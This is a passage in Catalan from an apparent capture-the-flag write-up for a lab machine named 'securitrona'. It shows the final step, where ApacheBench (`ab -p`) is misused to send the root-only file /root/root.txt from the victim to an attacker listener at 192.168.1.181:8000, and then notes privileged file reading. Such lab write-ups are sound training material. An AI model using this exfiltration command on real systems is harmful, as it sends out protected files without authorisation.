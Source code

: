 i a la màquina víctima amb l'usuari securitrona enviem la flag de root a la nostra màquina atacant.

```bash
ab -p /root/root.txt http://192.168.1.181:8000/onepath
```

Obtenim la flag de root.

![Flag root](../../../assets/images/securitrona/20250628_224356_image.png)

Amb això és tot. En aquesta màquina no està prevista l'elevació de privilegis, però sí la lectura privilegiada de fitxers.
